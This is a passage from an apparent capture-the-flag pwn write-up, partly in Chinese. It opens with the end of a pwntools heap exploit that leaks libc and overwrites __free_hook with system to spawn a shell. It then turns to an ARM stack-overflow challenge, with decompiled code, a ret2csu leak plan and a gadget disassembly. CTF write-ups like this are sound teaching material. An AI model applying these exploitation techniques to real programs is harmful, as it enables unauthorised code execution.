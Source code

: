 ```
# p.recvuntil("Content: ")
libc.address = u64(address) - 88 - libc.sym['__malloc_hook'] - 0x10
log.success("leak address is `{``}`".format(hex(u64(address))))
log.success("libc address is `{``}`".format(hex(libc.address)))
print(hex(libc.address - 0x4000801000))


echo("flag"+ str(0), b"a"*0x100, 1)
payload = b"b"*0x8 + p64(0x31) + b"flag1".ljust(0x10, b"\x00")
payload += p64(libc.sym['__free_hook']) + p64(0x100) + p64(0)
echo("flag" + str(0), payload)

echo("flag" + str(1), p64(libc.sym['system']), 1)

echo("flag" + str(4), "/bin/sh\x00")
rm("flag" + str(4))

p.interactive()
```



## PWNI

```
undefined4 main(void)

`{`
  undefined auStack264 [256];

  setvbuf(stdout,(char *)0x0,2,0);
  printf("input: ");
  read(0,auStack264,0x300);
  return 0;
`}`
```

很明显的栈溢出，但是这里是`arm`架构的，并且没有开启`pie`，这里可以直接利用`ret2csu`调用`printf`函数输出`read`函数的地址，泄漏出`libc`基址。

```
LAB_00010540                                    XREF[1]:     00010560(j)  
        00010540 05 00 59 e1     cmp        r9,r5
        00010544 f0 87 bd 08     ldmiaeq    sp!,`{`r4 r5 r6 r7 r8 r9 r10 pc`}`
        00010548 04 30 94 e4     ldr        r3,[r4],#0x4=&gt;-&gt;frame_dummy                      = 10474h
                                                                                             = 1049Ch
        0001054c 08 20 a0 e1     cpy        r2,r8
        00010550 07 10 a0 e1     cpy        r1,r7
        00010554 06 00 a0 e1     cpy        r0,r6
        00010558 33 ff 2f e1     blx        r3=&gt;frame_dummy                                  undefined frame_dummy()
                                                                                             undefined __do_global_dtors_aux()
        0001055c 01 90 89 e2     add        r9,r9,#0x1
        00010560 f6 ff ff ea     b          LAB_00010540
```
